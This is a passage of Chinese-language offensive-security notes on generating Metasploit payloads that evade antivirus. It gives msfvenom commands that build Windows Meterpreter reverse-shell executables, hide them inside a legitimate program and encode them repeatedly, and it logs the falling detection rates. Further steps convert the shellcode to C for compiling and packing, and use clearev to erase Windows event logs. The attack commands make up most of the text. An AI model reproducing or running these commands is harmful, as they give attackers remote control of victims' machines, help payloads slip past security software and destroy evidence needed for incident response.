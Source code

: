 查杀结果： 37% 的杀软报毒

##### 四、MSF 自捆绑+编码处理生成样本（-e、 -x、 -i）

`msfvenom -p windows/meterpreter/reverse_tcp lhost=xxx.xxx.xxx.xxx lport=xxx -e x86/shikata_ga_nai -x AAA.exe -i 10 -f exe -o payload.exe`

查杀结果： 31% 的杀软报毒

增加编码次数 `-i 20`

查杀结果： 27% 的杀软报毒

##### 五、MSF 多重编码生成样本

`msfvenom -p windows/meterpreter/reverse_tcp lhost=xxx.xxx.xxx.xxx lport=xxx -e x86/shikata_ga_nai -x AAA.exe -i 10 -f raw | msfvenos -e x86/alpha_upper -i 10 raw | msfvenom -e x86/countdown -i 10 -x AAAA.exe -f exe -o payload.exe`

##### 六、生成 ShellCode 使用 C 语言调用

1. 在 linux 中利用 msf 的 meterpreter 生成的文件以 .c 形式文件存储，得到机器码：

   `msfvenom -p windows/meterpreter/reverse_tcp lhost=xxx.xxx.xxx.xxx lport=xxxx -f c > c0001.c`

2. 修改 c 文件，编译，加壳



## msf 清除事件日志

- 在 meterpreter 中执行 clearev 命令直接清理（包含应用程序、系统日志、安全模块日志。需要 SYSTEM 权限）

